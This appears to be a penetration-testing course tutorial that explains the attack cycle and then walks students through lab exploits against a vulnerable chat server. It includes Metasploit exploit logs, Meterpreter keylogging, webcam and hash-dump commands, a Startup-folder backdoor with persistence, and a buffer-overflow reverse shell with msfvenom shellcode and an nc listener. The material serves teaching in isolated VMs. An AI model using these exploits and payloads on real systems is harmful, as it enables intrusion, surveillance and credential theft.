

# Penetration Testing and Software Security

In penetration testing, a pentester (who is hired to do penetration testing on demand) is basically an ethical hacker,
testing if customer networks and computers have vulnerabilities and can be hacked.
The pentester pretty much does similar things to what is done by hackers, but for a good cause.
For simplicity of explaining, in this tutorial we often take the role of hackers trying to attack the targets. 
We are going to cover everything from information collecting, exploitation and post exploitation.


## Cyber Attack Cycle
We first look at the cyber attack cycle. We all know now cyber attacks are very serious and cause tremendous damages.
Fighting cybercrimes is among FBI's top three priorities.
We want to think like an adversary so that we can understand attacks.
Why do we want to understand the attacks?
Because we have to understand cyber attacks so that we can actually design our defense to
counter those attacks. If you do not know the attacks, how can you design the defense?
As a penetration tester,  you actually also need to
understand attacks so as to test if computers and networks are vulnerable.

Now let's have a look at the cyber attack cycle to see a big picture of how attacks are performed.
A cyber attack can have three phases: information collecting, exploitation and post-exploitation.



### Phase 1: Information collecting
The first phase is information connecting.
When an attacker attacks you, they need to know you to some extent, for example, your email address or the IP address of your computer.
An IP address has the format of x.x.x.x, where x is an integer from 0 to 255.
So you can see that the attacker may also randomly pick up some IP addresses to attack.
The IP address alone may not be enough.
The attacker may also want to know what servers (which are software) are running at an IP. 

One popular way to find servers running at an IP is port scanning.
What is a port?
A computer may run multiple servers such as web server and email server.
Port numbers are used to differentiate different servers so that when a message arrives at the computer,
the computer knows where to forward the message, e.g., web server or email server.
Of course, the message (called packet too or other names) shall contain the IP address of the computer and port number indicating the server.
In port scanning, carefully crafted messages are sent to possible ports at a computer.
A particular port is often allocated to a specific server, for example, port 80 corresponds to the http web server.
If there is response from a port, then we know maybe a particular service runs at that port.
There are advanced techniqnues to further identify and verify what service/software runs at a live port.
Please note: it is particular software that runs a particular service.
For example, the Apache web server software runs a web service.

### Phase 2: Exploitation
Once the attaker gets the information and determines the target, he now can perform the exploitation.
In this stage there are many different exploits and tricks.
In the picture of the cyber attack cycle, three examples are shown.
The first one is phishing attack, in which emails are sent to victims asking them to click links or attachments so as to solicit critical information such as passwords.
The attacker may use social engineering tricks and pretend to be authorities or friends so as to trick the victims to willingly surrender information via fake websites or other means.
Here is a tip to avoid such attacks: whenever someone asks you for money or credentials, think twice and double check!
Do not easily click an attachment of an email since the attachment may be malware,
which could erase files on your disk or perform the cryptoLocker ransomware attack.
In a cryptoLocker ransomware attack, the attacker encrypts user files and asks the victim for ransom if the victim wants their files back decrypted.
The malware can also be a backdoor, which is basically a server to be installed on the victim computer and allows the attacker to log into the victim computer later.

Another example is the brute force password guessing attack.
When an attacker tries to log into your web account,
the attacker may try all possible credentials one by one and see which one works.
You may think this will not work. The truth is this is a popular way of hacking.
It often succeeeds since people choose easy passwords such as *abc123*.
Make your password complicated so that it is hard to guess.

The buffer overflow attack is an advanced attack.
The server software may have a specific vulnerability called buffer overflow vulnerability.
Recall when a function is done, it returns (often with a *ret* instruction, which means return) to next instruction after the function call as the picture below shows.


The return address of the function, e.g., *the address of next instruction* in the picture, is stored in particular computer memory. 
When the attacker sends a malicious message to the server,
a function of the server code may save the message into a buffer (in computer memeory) for later processing.
If the attack message is long and the buffer is relatively small,
the message may overflow the buffer and overwrite the function's return address
so that the ovrwritten return address now points to the malcious code embedded in the malicious message.
Now when the function is done and returns, the malicious code in the malicious message gets running.
The picture below shows how a malicious message may be constructed to overwrite the buffer and return address.


The buffer overflow vulnerability often occurs in software written in C or C++ because of some unsafe mechanisms.
Python is designed to avoid the buffer overflow vulnerability although Python can be used to perform the buffer overflow attack.

### Phase  3: Post Exploitation
Once the attacker gets inside of the victim computer, what else can he do?
The attackers wants to profit to from the exploitation and will perform post exploitation activities.

Post exploitation can be escalating privileges.
Sometimes the attacker may be able to just compromise a normal user account,
which doesn't have the admin privilege.
The attacker will think about other ways to escalate their privileges so that they
can do more damages. 

The attacker may explore your computer, steal your data, and look around.
If they got enough privileges for example the root/admin privilege
they may actually dump password hashes and use *John the Reaper* to crack password hashes so that they
get all the passwords.

Post exploitation can be setup of pivoting. What does that mean?
Sometimes the attacker may just be able to actually hack one computer within an enterprise or a school.
They want to utilize this compromised computer to hack into other computers. This is called pivoting.
Normally the school or the enterprise may not have enough funds to deploy defense systems inside of their campus.
Most of the defense such as firewall is set up at the edge of the campus.
Once the attacker is inside of the campus network, they will be able to do more damages.
They can use the compromised computer as stepping stone to attack other computers or networks from inside.

Post exploitation also includes installation of a backdoor. It is often necessary since if the system is patched, the attacker will not be able to log into the target computer again after the system reboots. A backdoor is a piece of software the attacker installs on the target computer and allows the attacker to log into the target computer later.

## Introduction to Metasploit and Armitage
Metasploit is a great console based hacking tool. However, you have to manually enter commands to use the functionalities.
So it is very hard to use without advanced knowledge.
Armitage is a GUI interface for Metasploit so that all attacks and other functionalities are just a few clicks away
although some functionalities require inputs.
Please check this <a href="../FieldTrips">tutorial</a> on an introduction to Metasploit and Armitage.

### knock module against vchat

We created a <a href="https://github.com/xinwenfu/Malware-Analysis/tree/main/MetasploitNewModule">knock</a> module to exploit our vchat server. At Kali VM, the knock module is located at /usr/share/metasploit-framework/modules/exploits/windows/vchat/.
This module exploits a buffer overflow vulnerability of the vchat server and allows the attacker to hack into the computer running the vchat server.

Here is what happens (in this case what armitage shows in the exploit window) when using the *knock* module without selecting *Use a reverse connection*
```
msf6 > use exploit/windows/vulnserver/knock
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/vulnserver/knock) > set RHOSTS 192.168.1.19
RHOSTS => 192.168.1.19
msf6 exploit(windows/vulnserver/knock) > set TARGET 0
TARGET => 0
msf6 exploit(windows/vulnserver/knock) > set LHOST 192.168.1.4
LHOST => 192.168.1.4
msf6 exploit(windows/vulnserver/knock) > set LPORT 19521
LPORT => 19521
msf6 exploit(windows/vulnserver/knock) > set PAYLOAD windows/meterpreter/bind_tcp
PAYLOAD => windows/meterpreter/bind_tcp
msf6 exploit(windows/vulnserver/knock) > set RPORT 9999
RPORT => 9999
msf6 exploit(windows/vulnserver/knock) > exploit -j
[*] Exploit running as background job 2.
[*] Exploit completed, but no session was created.
[*] 192.168.1.19:9999 - Connecting to target...
[*] 192.168.1.19:9999 - Trying target vulnserver-KNOCK...
[*] Started bind TCP handler against 192.168.1.19:19521
[*] Sending stage (175174 bytes) to 192.168.1.19
[*] Meterpreter session 1 opened (192.168.1.4:38211 -> 192.168.1.19:19521 ) at 2022-06-12 16:25:01 -0400
```

Here is what happens (armitage shows in the exploit window) when using the *knock* module with selecting *Use a reverse connection*
```
msf6 > use exploit/windows/vulnserver/knock
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/vulnserver/knock) > set RHOSTS 192.168.1.19
RHOSTS => 192.168.1.19
msf6 exploit(windows/vulnserver/knock) > set TARGET 0
TARGET => 0
msf6 exploit(windows/vulnserver/knock) > set LHOST 192.168.1.4
LHOST => 192.168.1.4
msf6 exploit(windows/vulnserver/knock) > set LPORT 9387
LPORT => 9387
msf6 exploit(windows/vulnserver/knock) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf6 exploit(windows/vulnserver/knock) > set RPORT 9999
RPORT => 9999
msf6 exploit(windows/vulnserver/knock) > exploit -j
[*] Exploit running as background job 1.
[*] Exploit completed, but no session was created.
[*] Started reverse TCP handler on 192.168.1.4:9387 
[*] 192.168.1.19:9999 - Connecting to target...
[*] 192.168.1.19:9999 - Trying target vulnserver-KNOCK...
[*] Sending stage (175174 bytes) to 192.168.1.19
[*] Meterpreter session 1 opened (192.168.1.4:9387 -> 192.168.1.19:49775 ) at 2022-06-12 18:53:35 -0400
```

## Post exploitation and Meterpreter

Once into a computer, the attacker may collect sensitive information e.g., usernames and passwords.
How? One way is to use Meterpreter, a Metasploit attack payload, which is the malcious code the attacker sends to the victim server and gets running.
Meterpreter provides the attacker an interactive shell (emulated console) exploring the target machine and executing code.
For example, within Meterpreter, *hashdump* can list all the usernames and the passwords.
Then use *John the Ripper* to crack password hashes.


The attacker may also want to maintain access to the compromsied computer
so that even if the compromised computer restarts, the attacker can still get in.
If access is not maintained, the attacker will have to exploit it from the beginning in case the hacked system is closed or patched
The best way of maintaining access is to install a backdoor.


### Meterpreter commands

Please see a more complete list of Meterpreter commands <a href="https://www.offensive-security.com/metasploit-unleashed/meterpreter-basics/">here</a>.

- help
- getuid
- getsystem
- webcam_list
  - Enable webcam within VM (Devices -> Webcams -> Click the camera name)
- webcam_snap 
- webcam_stream
- screenshot
- record_mic
- keyscan_start
- keyscan_dump
  - Not automatic. Needs to run keyscan_dump again after keys are typed 
- keyscan_stop
- shell
- Installing service Persistence and opening a persistent backdoor
  - Need system priviledge since it installs a service. Does not work since Windows 10/11 kills the malicious service automatically.

## Hands-on 1: Hacking into metasploitable 2
Please check this <a href="../FieldTrips">tutorial</a>.

### Hands-on 2: Hacking into Windows VM
- Click and start chat server C:\Tools\vchat\Server\vchat.exe
- Use armitage to scan Windows VM and find attacks
- Click the found Windows VM (IP)
- Deploy exploit/windows/vchat/knock
  - If armitage cannot find knock attack, just select it from the left panel of modules

Got it?

### Hands-on 3: Capturing sreenshot
1. The attacker hacks into the target and opens a Meterpreter shell.

2. Use the meterpreter command *screenshot* to capture a screenshot of the Windows VM.

### Hands-on 4: Keystroke logging
1. The attacker hacks into the target and opens a Meterpreter shell.

2. Use the meterpreter command *keyscan_start*, *keyscan_dump*, and *keyscan_stop* to dump keystrokes.
   - Not automatic. Needs to run keyscan_dump again after keys are typed 


### Hands-on 5: Deploying persistent backdoor
A backdoor will be moved to the Windows startup folder so that even if Windows restarts, the attacker can still use the backdoor to log into the target computer. We will use <a href="https://github.com/xinwenfu/Malware-Analysis/tree/main/MalwareSamples">our backdoor program<a> since Metasploit backdoors are blocked and cannot be used.

1. The attacker hacks into the target and opens a Meterpreter shell.

2. Within the Meterpreter shell, *upload* the backdoor program, *nice3.exe* in the example below, to the startup folder. <a href="https://github.com/xinwenfu/MalwareSamples">Here</a> are a few malware samples.

```
meterpreter > upload /home/kali/GenCyber/MalwareSamples/Backdoors/SimpleBindBackdoor/nice3.exe C:\\Users\\"Malware Analysis"\\AppData\\Roaming\\Microsoft\\Windows\\"Start Menu"\\Programs\\Startup\\nice3.exe
[*] uploading  : /home/kali/GenCyber/MalwareSamples/Backdoors/SimpleBindBackdoor/nice3.exe -> C:\Users\Malware Analysis\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\nice3.exe
[*] Uploaded 49.83 KiB of 49.83 KiB (100.0%): /home/kali/GenCyber/MalwareSamples/Backdoors/SimpleBindBackdoor/nice3.exe -> C:\Users\Malware Analysis\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\nice3.exe
[*] uploaded   : /home/kali/GenCyber/MalwareSamples/Backdoors/SimpleBindBackdoor/nice3.exe -> C:\Users\Malware Analysis\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\nice3.exe
```
Please pay attention to how the long folder name with multiple words and spaces is quoted.

To find where the startup folder is, press the Windows logo key  + R, type *shell:startup*, then select OK. This opens the Startup folder so that you can see where it is.

3. Restart Windows VM. Use *nc* at Kali VM to log into the backdoor, which spawns a Windows command console.
```
┌──(kali㉿Cyber-Range)-[~]
└─$ nc 192.168.1.19 8080    
Microsoft Windows [Version 10.0.19044.1706]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```

### Hands-on 6: Buffer overflow attack via Python code

Watch this video tutorial. Please note you have to adjust a few things in a minor way.
  
[](https://youtu.be/LRNZxCC84RI)


The Python code is /home/kali/GenCyber/vchat/Attack/reverse-shell.py on Kali VM.
This attack ubtilizes the buffer overflow vulnerability of the vulnerable chat server (i.e., vchat in our case) and sends a *reverse tcp shell* (one kind of malware code) payload, which connects back to the attacker and spawns a shell (Windows terminal) at the attacker's Kali VM.

Here are steps:
 
1. To receive the reverse shell (i.e. Windows console), run the following command in a terminal on Kali VM
```
nc -l -v -p 4444
``` 

2. Change the following lines in reverse-shell.py
- Change the victim IP to your Windows VM's IP
```
HOST = '10.0.2.7'   # vitcim IP
```

- Use msfvenom command to generate the shell code (malware code) as part of the malicious message. You have to change LHOST to your Kali VM's IP. 
```
msfvenom -p windows/shell_reverse_tcp LHOST=10.0.2.8 LPORT=4444 EXITFUNC=thread -f python -v SHELL -b '\x00\x0a\x0d' 
```

Use the output of msfvenom above, and replace the following code of reverse-shell.py in a similar way
```
# Shellcode created by msfvenom
# msfvenom -p windows/shell_reverse_tcp LHOST=10.0.2.8 LPORT=4444 EXITFUNC=thread -f python -v SHELL -b '\x00\x0a\x0a' 
SHELL =  b""
SHELL += b"\xba\xb7\x9a\xd6\x72\xd9\xea\xd9\x74\x24\xf4\x5e"
SHELL += b"\x29\xc9\xb1\x52\x83\xc6\x04\x31\x56\x0e\x03\xe1"
SHELL += b"\x94\x34\x87\xf1\x41\x3a\x68\x09\x92\x5b\xe0\xec"
SHELL += b"\xa3\x5b\x96\x65\x93\x6b\xdc\x2b\x18\x07\xb0\xdf"
SHELL += b"\xab\x65\x1d\xd0\x1c\xc3\x7b\xdf\x9d\x78\xbf\x7e"
SHELL += b"\x1e\x83\xec\xa0\x1f\x4c\xe1\xa1\x58\xb1\x08\xf3"
SHELL += b"\x31\xbd\xbf\xe3\x36\x8b\x03\x88\x05\x1d\x04\x6d"
SHELL += b"\xdd\x1c\x25\x20\x55\x47\xe5\xc3\xba\xf3\xac\xdb"
SHELL += b"\xdf\x3e\x66\x50\x2b\xb4\x79\xb0\x65\x35\xd5\xfd"
SHELL += b"\x49\xc4\x27\x3a\x6d\x37\x52\x32\x8d\xca\x65\x81"
SHELL += b"\xef\x10\xe3\x11\x57\xd2\x53\xfd\x69\x37\x05\x76"
SHELL += b"\x65\xfc\x41\xd0\x6a\x03\x85\x6b\x96\x88\x28\xbb"
SHELL += b"\x1e\xca\x0e\x1f\x7a\x88\x2f\x06\x26\x7f\x4f\x58"
SHELL += b"\x89\x20\xf5\x13\x24\x34\x84\x7e\x21\xf9\xa5\x80"
SHELL += b"\xb1\x95\xbe\xf3\x83\x3a\x15\x9b\xaf\xb3\xb3\x5c"
SHELL += b"\xcf\xe9\x04\xf2\x2e\x12\x75\xdb\xf4\x46\x25\x73"
SHELL += b"\xdc\xe6\xae\x83\xe1\x32\x60\xd3\x4d\xed\xc1\x83"
SHELL += b"\x2d\x5d\xaa\xc9\xa1\x82\xca\xf2\x6b\xab\x61\x09"
SHELL += b"\xfc\xde\x75\x13\xf4\xb6\x77\x13\x15\x1b\xf1\xf5"
SHELL += b"\x7f\xb3\x57\xae\x17\x2a\xf2\x24\x89\xb3\x28\x41"
SHELL += b"\x89\x38\xdf\xb6\x44\xc9\xaa\xa4\x31\x39\xe1\x96"
SHELL += b"\x94\x46\xdf\xbe\x7b\xd4\x84\x3e\xf5\xc5\x12\x69"
SHELL += b"\x52\x3b\x6b\xff\x4e\x62\xc5\x1d\x93\xf2\x2e\xa5"
SHELL += b"\x48\xc7\xb1\x24\x1c\x73\x96\x36\xd8\x7c\x92\x62"
SHELL += b"\xb4\x2a\x4c\xdc\x72\x85\x3e\xb6\x2c\x7a\xe9\x5e"
SHELL += b"\xa8\xb0\x2a\x18\xb5\x9c\xdc\xc4\x04\x49\x99\xfb"
SHELL += b"\xa9\x1d\x2d\x84\xd7\xbd\xd2\x5f\x5c\xdd\x30\x75"
SHELL += b"\xa9\x76\xed\x1c\x10\x1b\x0e\xcb\x57\x22\x8d\xf9"
SHELL += b"\x27\xd1\x8d\x88\x22\x9d\x09\x61\x5f\x8e\xff\x85"
SHELL += b"\xcc\xaf\xd5"
```

3. Save reverse-shell.py and run the following command in the folder of /home/kali/GenCyber/vchat/Attack/ within another terminal
```
python reverse-shell.py
```  
If everything is right, you shall see the Windows console in the terminal running the *nc* command.
  
  
Notes:
  
*msfvenom* command options
```
kali@kali:~$ msfvenom -h
MsfVenom - a Metasploit standalone payload generator.
Also a replacement for msfpayload and msfencode.
Usage: /usr/bin/msfvenom [options] <var=val>
Example: /usr/bin/msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> -f exe -o payload.exe

Options:
    -l, --list            <type>     List all modules for [type]. Types are: payloads, encoders, nops, platforms, archs, encrypt, formats, all
    -p, --payload         <payload>  Payload to use (--list payloads to list, --list-options for arguments). Specify '-' or STDIN for custom
        --list-options               List --payload <value>'s standard, advanced and evasion options
    -f, --format          <format>   Output format (use --list formats to list)
    -e, --encoder         <encoder>  The encoder to use (use --list encoders to list)
        --service-name    <value>    The service name to use when generating a service binary
        --sec-name        <value>    The new section name to use when generating large Windows binaries. Default: random 4-character alpha string
        --smallest                   Generate the smallest possible payload using all available encoders
        --encrypt         <value>    The type of encryption or encoding to apply to the shellcode (use --list encrypt to list)
        --encrypt-key     <value>    A key to be used for --encrypt
        --encrypt-iv      <value>    An initialization vector for --encrypt
    -a, --arch            <arch>     The architecture to use for --payload and --encoders (use --list archs to list)
        --platform        <platform> The platform for --payload (use --list platforms to list)
    -o, --out             <path>     Save the payload to a file
    -b, --bad-chars       <list>     Characters to avoid example: '\x00\xff'
    -n, --nopsled         <length>   Prepend a nopsled of [length] size on to the payload
        --pad-nops                   Use nopsled size specified by -n <length> as the total payload size, auto-prepending a nopsled of quantity (nops minus payload length)
    -s, --space           <length>   The maximum size of the resulting payload
        --encoder-space   <length>   The maximum size of the encoded payload (defaults to the -s value)
    -i, --iterations      <count>    The number of times to encode the payload
    -c, --add-code        <path>     Specify an additional win32 shellcode file to include
    -x, --template        <path>     Specify a custom executable file to use as a template
    -k, --keep                       Preserve the --template behaviour and inject the payload as a new thread
    -v, --var-name        <value>    Specify a custom variable name to use for certain output formats
    -t, --timeout         <second>   The number of seconds to wait when reading the payload from STDIN (default 30, 0 to disable)
    -h, --help                       Show this message
```

<!--  -->


## References
- v4L, <a href="https://www.hacking-tutorial.com/tips-and-trick/13-metasploit-meterpreter-file-system-command-you-should-know/#sthash.R7VFJW1l.dpbs">13 Metasploit Meterpreter File System Command You Should Know</a>
- <a href="https://www.offensive-security.com/metasploit-unleashed/meterpreter-basics/">METERPRETER BASIC COMMANDS</a>

